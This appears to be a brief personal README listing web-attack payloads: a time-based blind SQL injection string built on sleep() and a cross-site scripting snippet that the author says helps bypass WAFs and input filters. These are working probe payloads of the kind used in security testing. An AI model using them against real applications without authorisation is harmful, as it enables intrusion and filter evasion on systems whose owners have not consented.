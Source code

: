 ## Just a useless set of payload used or created by me. Saved here for remembrance.

### SQL Injection
#### Time Based Blind:
 - `(select(if(user()like(user()),sleep(4),sleep(2))))`

### Cross Site Scripting
 - `[document.domain].find(confirm)` (helped me to bypass WAFs/filters or useful if input is echoed or used as variable in js files)
